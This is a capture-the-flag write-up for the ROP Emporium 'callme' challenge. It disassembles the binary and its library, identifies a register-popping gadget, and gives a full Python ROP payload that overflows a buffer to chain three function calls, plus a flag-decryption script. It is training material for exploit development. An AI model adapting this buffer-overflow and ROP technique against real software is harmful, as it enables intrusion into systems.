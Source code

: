 ```yaml
---
title: 03_callme
categories: [series, rop_emporium]
---
```


# ROP Emporium callme

* **Tools:** IDA Free 7.0, gdb-gef, checksec
* **Prerequistes:** Stack frame
* **Download solution:** [main.py](/assets/series/rop_emporium/main.py)

## Overview

> "[...] You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag. [...]"

There it is, in this challenge we'll have to build a chain that doesn't provoke a segfault. The archive contains the following files:
* **callme**: Binary to exploit;
* **libcallme.so**: Shared library exporting the functions `callme_one()`, `callme_two()`, and `callme_tree()`;
* **encrypted_flag.txt**: The encypted flag (bummer!);
* **key1.dat**: Part n°1 of the decryption key;
* **key2.dat**: Part n°2 of the decryption key.

## Function pwnme():

The function to pwn is similar to the previous challenges, the only difference is `_fgets()` accepts a longer input (256 bytes):
```
0000000000401A3C    mov     rdx, cs:stdin@@GLIBC_2_2_5 ; stream
0000000000401A43    lea     rax, [rbp+s]
0000000000401A47    mov     esi, 256        ; n
0000000000401A4C    mov     rdi, rax        ; s
0000000000401A4F    call    _fgets
```

## Functions callme\_one(), callme\_two(), and callme\_three():

These functions are exported by the dynamic library `libcallme.so`:
```bash
readelf --syms libcallme.so | grep callme
17: 00000000000009d4   214 FUNC    GLOBAL DEFAULT   12 callme_two
21: 0000000000000aaa   246 FUNC    GLOBAL DEFAULT   12 callme_three
22: 00000000000008f0   228 FUNC    GLOBAL DEFAULT   12 callme_one
[...]
```

### Function callme\_one():

It starts by checking the content of registers `edi`, `esi`, and `edx`:

```
00000000000008F8    mov     [rbp+arg1], edi
00000000000008FB    mov     [rbp+arg2], esi
00000000000008FE    mov     [rbp+arg3], edx
0000000000000901    cmp     [rbp+arg1], 1
0000000000000905    jnz     badboy
000000000000090B    cmp     [rbp+arg2], 2
000000000000090F    jnz     badboy
0000000000000915    cmp     [rbp+arg3], 3
0000000000000919    jnz     badboy
```
Hence, it expects the follwing parameters when called:
* `edi` = 1
* `esi` = 2
* `edx` = 3

If inputs parameters are correct, the function opens the file `encrypted_flag.txt` and set its content into a global buffer:
```
0000000000000927    lea     rsi, modes      ; "r"
000000000000092E    lea     rdi, filename   ; "encrypted_flag.txt"
0000000000000935    call    _fopen
000000000000093A    mov     [rbp+stream], rax
[...]
000000000000098E    mov     rax, cs:encrypted_flag
0000000000000995    mov     rdx, [rbp+stream] ; stream
0000000000000999    mov     esi, 21h        ; n
000000000000099E    mov     rdi, rax        ; s
00000000000009A1    call    _fgets
00000000000009A6    mov     cs:encrypted_flag, rax
```

### Function callme\_two():

This function also checks that `edi`, `esi`, and `edx` are respectively set to `1`, `2`, and `3` (code not shown). If input parameters are correct, the function uses the content of the file `key1.dat` to decrypt the first 16 bytes of the flag:
```
0000000000000A4F decrypt_next:
0000000000000A4F    mov     rax, [rbp+stream]
0000000000000A53    mov     rdi, rax        ; content of key1.dat
0000000000000A56    call    _fgetc          ; get next
0000000000000A5B    mov     esi, eax        ; key
0000000000000A5D    mov     rdx, cs:encrypted_flag
0000000000000A64    mov     eax, [rbp+i]
0000000000000A67    cdqe                    ; dword to qword
0000000000000A69    add     rax, rdx        ; ->encrypted[i]
0000000000000A6C    mov     rcx, cs:encrypted_flag
0000000000000A73    mov     edx, [rbp+i]
0000000000000A76    movsxd  rdx, edx
0000000000000A79    add     rdx, rcx        ; ->encrypted[i]
0000000000000A7C    movzx   edx, byte ptr [rdx] ; encrypted char
0000000000000A7F    mov     ecx, esi        ; key
0000000000000A81    xor     edx, ecx        ; encrypted[i] xor key[i]
0000000000000A83    mov     [rax], dl       ; decrypted[i]
0000000000000A85    add     [rbp+i], 1
0000000000000A89 loc_A89:
0000000000000A89    cmp     [rbp+i], 0Fh
0000000000000A8D    jle     short decrypt_next
```

### Function callme\_three():

Again, `edi`, `esi`, and `edx` have to be set to `1`, `2`, and `3`, respectively (code not shown). Then, it uses the content of the file `key2.dat` to decrypt the next 16 bytes of the flag. The decryption follows the same algorithm as in the previous section, so code is not shown. You can have a look an my [reimplementation in Python](#decryption).

## Function usefulGadgets():

Back to the main binary. Function `usefulGadgets()` is indeed really useful, because it pops everything we need from the stack to the registers we want:
```
0000000000401AB0 usefulGadgets:
0000000000401AB0    pop     rdi
0000000000401AB1    pop     rsi
0000000000401AB2    pop     rdx
0000000000401AB3    retn
```
So, if we were to call the function `usefulGadgets()` with the following stack frame, we could successfully call and execute the function `callme_one()`:
```
0x0000000000000001
0x0000000000000002
0x0000000000000003
addr _callme_one()
```
Successfull calls to `callme_two()` and `callme_three()` would follow the same idea.

## Function usefulFunction():

We're still inside the main binary. We can't directly call the function `usefulFunction()`, because (i) it doesn't perform the calls to `callme_xxx()` in the correct order, and (ii) it sets the wrong values into `edi`, `esi`, and `edx`:
```
0000000000401A57 usefulFunction  proc near
0000000000401A57    push    rbp
0000000000401A58    mov     rbp, rsp
0000000000401A5B    mov     edx, 6
0000000000401A60    mov     esi, 5
0000000000401A65    mov     edi, 4
0000000000401A6A    call    _callme_three
0000000000401A6F    mov     edx, 6
0000000000401A74    mov     esi, 5
0000000000401A79    mov     edi, 4
0000000000401A7E    call    _callme_two
0000000000401A83    mov     edx, 6
0000000000401A88    mov     esi, 5
0000000000401A8D    mov     edi, 4
0000000000401A92    call    _callme_one
0000000000401A97    mov     edi, 1          ; status
0000000000401A9C    call    _exit
0000000000401A9C usefulFunction  endp
```
It may be tempting to build an exploit executing code at addresses `0x0401A92`, `0x0401A7E`, and `0x0401A6A`. However, doing this will just make us to lose the control we have over `rip`. Indeed, if the instruction at `0x0401A92` is executed, the return address `0x0401A97` will be set automatically on the stack. And game over for us. Instead, we will use the addresses of `_callme\_xxx()` functions from the `procedure linkage table`:
```
.plt:0000000000401810 _callme_three   proc near
.plt:0000000000401810    jmp     cs:off_602028 ; got.plt callme_three
.plt:0000000000401810 _callme_three   endp
[...]
.plt:0000000000401850 _callme_one     proc near
.plt:0000000000401850    jmp     cs:off_602048 ; got.plt callme_one
.plt:0000000000401850 _callme_one     endp
[...]
.plt:0000000000401870 _callme_two     proc near
.plt:0000000000401870    jmp     cs:off_602058 ; got.plt callme_two
.plt:0000000000401870 _callme_two     endp
```
That will do the job.

## Chaining things

Payload in Python:
```python
payload = b''
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41'  # buffer
payload += b'\x42\x42\x42\x42\x42\x42\x42\x42'  # RBP
payload += b'\xB0\x1A\x40\x00\x00\x00\x00\x00'  # addr "usefulGadgets()": pop edi, esi, edx, ret
payload += b'\x01\x00\x00\x00\x00\x00\x00\x00'  # param1 for callme_one()
payload += b'\x02\x00\x00\x00\x00\x00\x00\x00'  # param2 for callme_one()
payload += b'\x03\x00\x00\x00\x00\x00\x00\x00'  # param3 for callme_one()
payload += b'\x50\x18\x40\x00\x00\x00\x00\x00'  # plt proc callme_one()
payload += b'\xB0\x1A\x40\x00\x00\x00\x00\x00'  # addr "usefulGadgets()": pop edi, esi, edx, ret
payload += b'\x01\x00\x00\x00\x00\x00\x00\x00'  # param1 for callme_two()
payload += b'\x02\x00\x00\x00\x00\x00\x00\x00'  # param2 for callme_two()
payload += b'\x03\x00\x00\x00\x00\x00\x00\x00'  # param3 for callme_two()
payload += b'\x70\x18\x40\x00\x00\x00\x00\x00'  # plt proc callme_two()
payload += b'\xB0\x1A\x40\x00\x00\x00\x00\x00'  # addr "usefulGadgets()": pop edi, esi, edx, ret
payload += b'\x01\x00\x00\x00\x00\x00\x00\x00'  # param1 for callme_three()
payload += b'\x02\x00\x00\x00\x00\x00\x00\x00'  # param2 for callme_three()
payload += b'\x03\x00\x00\x00\x00\x00\x00\x00'  # param3 for callme_three()
payload += b'\x10\x18\x40\x00\x00\x00\x00\x00'  # plt proc callme_three()
payload += b'\x97\x1A\x40\x00\x00\x00\x00\x00'  # proper exit
```

## Bonus: decryption {#decryption}

```python
# content of the file "encrypted_flag.txt"
encrypted_flag = b'\x53\x4d\x53\x41\x7e\x67\x58\x78\x65\x6b\x68\x69\x65\x61\x63\x74'
encrypted_flag += b'\x74\x60\x4c\x27\x27\x74\x6e\x6c\x7c\x45\x7d\x70\x7c\x79\x3e\x5d'
encrypted_flag += b'\x21\x0a'

# key1.dat and key2.dat contains 0x01 -> 0x10 and 0x11 -> 0x20, respectively. Thus:
key = 1
decrypted = ''
for c in encrypted_flag:
    if key <= 0x20:
        decrypted += chr(c^key)
        key += 1

print(decrypted)
```
---
EOF
